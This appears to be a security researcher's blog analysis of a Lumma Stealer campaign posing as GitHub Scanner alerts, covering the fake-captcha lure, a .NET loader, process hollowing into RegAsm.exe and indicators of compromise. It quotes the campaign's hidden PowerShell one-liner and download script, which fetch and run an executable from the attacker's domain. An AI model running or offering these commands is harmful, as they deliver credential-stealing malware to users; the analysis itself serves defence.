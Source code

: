 ```yaml
---
title: "[MALWARE] Lumma Stealer Loader Analysis"
excerpt: "On September 19, 2024, I received an email regarding a GitHub Scanner result for my public repository. Initially, the email was not flagged as malicious or spam; however, further investigation revealed it to be part of a malware campaign attempting to distribute Lumma Stealer, disguised as a GitHub Scanner notification."
excerpt_separator: <!--more-->
categories:
  - Research
tags:
  - MALWARE
  - REV
  - LUMMA
  - "2024"
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


# Introduction
On September 19, 2024, I received an email regarding a GitHub Scanner result for my public repository. Initially, the email was not flagged as malicious or spam; however, further investigation revealed it to be part of a malware campaign attempting to distribute Lumma Stealer, disguised as a GitHub Scanner notification.

![IMG](/assets/images/github-scanner-lumma-stealer/img.png)

# Technical Analysis
Upon accessing the link (https://github-scanner.com), a Captcha verification page is presented.

![IMG2](/assets/images/github-scanner-lumma-stealer/img2.jpg)

The Captcha Verification steps are as follow:

![IMG3](/assets/images/github-scanner-lumma-stealer/img3.jpg)

The copied malicious PowerShell payload will execute the commands specified in `download.txt`.
```ps
powershell.exe -w hidden -Command "iex (iwr 'https://github-scanner.com/download.txt').Content" # "✅ ''I am not a robot - reCAPTCHA Verification ID: 93752"
```

The `download.txt` contains the following content, which fetches an executable, renames it to `SysSetup.exe`, and executes it:
```ps
$webClient = New-Object System.Net.WebClient
$url1 = "https://github-scanner.com/l6E.exe"
$filePath1 = "$env:TEMP\SysSetup.exe"
$webClient.DownloadFile($url1, $filePath1)
Start-Process -FilePath  $env:TEMP\SysSetup.exe
```

The `l6E.exe` (also referred to as `SysSetup.exe`) is a .NET executable, and its main function is as follows:

![IMG4](/assets/images/github-scanner-lumma-stealer/img4.png)

The `PersonalActivation` method serves as a decryption function to decrypt `Program.AIOsncoiuuA`, using `Program.Alco` as the key, and `MoveAngles.userBuffer`, using `MoveAngles.key`:

![IMG5](/assets/images/github-scanner-lumma-stealer/img5.png)

Upon decrypting the blob, it calls `VirtualProtect` on it with **PAGE_EXECUTE_READWRITE** permissions, and then executes it using `CallWindowProcW`.

The `Program.AIOsncoiuuA` appears to be shellcode and `MoveAngles.userBuffer` is an executable once decrypted:

![IMG6](/assets/images/github-scanner-lumma-stealer/img6.png)

## Shellcode Analysis
The shellcode first iterates through **_PEB_LDR_DATA** to resolve the `LoadLibraryA` and `GetProcAddress` APIs:

![IMG7](/assets/images/github-scanner-lumma-stealer/img7.png)

It then uses the `GetProcAddress` to obtain the addresses of the following APIs: `CreateProcessA`, `VirtualAlloc`, `GetThreatContext`, `ReadProcessMemory`, `VirtualAllocEx`, `WriteProcessMemory`, `SetThreatContext` and `ResumeThread`.

![IMG8](/assets/images/github-scanner-lumma-stealer/img8.png)

Moving on, it spawns a child process of `RegAsm.exe` and allocates memory in its address space with **PAGE_EXECUTE_READWRITE** permissions. It then retrieves the current thread context of `RegAsm.exe`, allowing the it to later modify its execution flow by manipulating the thread's state and registers, this suggest that it setting up memory for Process Hollowing later.

![IMG9](/assets/images/github-scanner-lumma-stealer/img9.png)

After that, the `MoveAngles.userBuffer` EXE code sections are now written into the memory of `RegAsm.exe`. This step is key to the process hollowing technique, as the legitimate `RegAsm.exe` code is replaced with malicious code. Each section of memory (`.text`, .`rdata`, `.data`, `.reloc`) is replaced sequentially, suggesting a complete takeover of the executable's logic.

![IMG10](/assets/images/github-scanner-lumma-stealer/img10.png)

Finally, the loader restores the modified thread context (`SetThreadContext`) to point to the newly injected malicious code, and then resumes the thread using `ResumeThread`. At this point, `RegAsm.exe` will execute the malicious code instead of its original program.

![IMG11](/assets/images/github-scanner-lumma-stealer/img11.png)

The malicious EXE code injected into `RegAsm.exe` is as follows. At first glance, it appears to decrypt itself at runtime:

![IMG12](/assets/images/github-scanner-lumma-stealer/img12.png)

Execute it in [ANY RUN](https://any.run/) indicates that LUMMA Stealer has been detected:

![IMG13](/assets/images/github-scanner-lumma-stealer/img13.png)

# Indicator of Compromise

| Indicator Type | IOCs                                                             |
| -------------- | ---------------------------------------------------------------- |
| Domain         | malware-scanner.com                                              |
| Domain         | 2x.si                                                            |
| Domain         | eemmbryequo.shop                                                 |
| Domain         | keennylrwmqlw.shop                                               |
| Domain         | licenseodqwmqn.shop                                              |
| Domain         | tendencctywop.shop                                               |
| Domain         | tesecuuweqo.shop                                                 |
| Domain         | relaxatinownio.shop                                              |
| Domain         | reggwardssdqw.shop                                               |
| Domain         | tryyudjasudqo.shop                                               |
| SHA256         | D737637EE5F121D11A6F3295BF0D51B06218812B5EC04FE9EA484921E905A207 |

# References
- https://x.com/troyhunt/status/1836508464375308684

